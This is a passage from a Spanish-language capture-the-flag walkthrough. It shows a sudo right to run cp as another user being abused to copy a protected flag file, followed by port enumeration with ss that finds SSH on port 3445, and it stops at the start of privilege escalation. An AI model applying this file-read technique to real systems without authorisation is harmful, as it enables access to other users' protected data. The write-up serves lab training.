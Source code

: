 Por tanto, como tenemos permisos de *cp* como elohim, vamos a copiarnos la flag de su directorio de trabajo al nuestro.

Hay que tener en cuenta que no tenemos permisos sobre ese fichero, de forma que no podemos "copiarlo" como tal ya que nos dará error. Sin embargo, si existe una triquiñuela que es generar el nombre del fichero primeramente para que entonces el sistema le haga un "append" del contenido que queremos copiar:

> También se puede copiar directamente al /dev/stdout para leer directamente los ficheros en consola.

~~~bash
talos@principle:~$ touch user.txt
talos@principle:~$ sudo -u elohim cp /home/gehenna/user.txt .
talos@principle:~$ cat user.txt 
                           _
                          _)\.-.
         .-.__,___,_.-=-. )\`  a`\_
     .-.__\__,__,__.-=-. `/  \     `\
     {~,-~-,-~.-~,-,;;;;\ |   '--;`)/
      \-,~_-~_-,~-,(_(_(;\/   ,;/
       ",-.~_,-~,-~,)_)_)'.  ;;(
         `~-,_-~,-~(_(_(_(_\  `;\
   ,          `"~~--,)_)_)_)\_   \
   |\              (_(_/_(_,   \  ;
   \ '-.       _.--'  /_/_/_)   | |
    '--.\    .'          /_/    | |
        ))  /       \      |   /.'
       //  /,        | __.'|  ||
      //   ||        /`    (  ||
     ||    ||      .'       \ \\
     ||    ||    .'_         \ \\
      \\   //   / _ `\        \ \\__
       \'-'/(   _  `\,;        \ '--:,
        `"`  `"` `-,,;         `"`",,;


CONGRATULATIONS, you have defeated me!

The flag is:
K|*************jN
~~~

Tenemos la flag de user, y llegamos al punto más complicado de la máquina, tenemos permisos de *cp* como elohim pero no sabemos qué hacer más aparte de copiar la flag que ya hemos hecho. No vemos otros vectores de escalada de privilegios... ¿o sí?


## Escalada de privilegios

Si recordamos había un directorio .ssh en el directorio de trabajo de elohim, sin embargo, solo tenemos el puerto 80 accesible desde fuera... Indaguemos esto bien:

~~~bash
talos@principle:~$ ss -tunel
Netid       State        Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       Process                                                             
udp         UNCONN       0             0                          0.0.0.0:68                      0.0.0.0:*           ino:14135 sk:1 cgroup:/system.slice/ifup@enp0s3.service 
tcp         LISTEN       0             128                        0.0.0.0:3445                    0.0.0.0:*           ino:14526 sk:2 cgroup:/system.slice/ssh.service          
tcp         LISTEN       0             511                        0.0.0.0:80                      0.0.0.0:*           ino:14468 sk:3 cgroup:/system.slice/nginx.service        
tcp         LISTEN       0             128                           [::]:3445                       [::]:*           ino:14528 sk:5 cgroup:/system.slice/ssh.service  
tcp         LISTEN       0             511                           [::]:80                         [::]:*           ino:14469 sk:6 cgroup:/system.slice/nginx.service  
~~~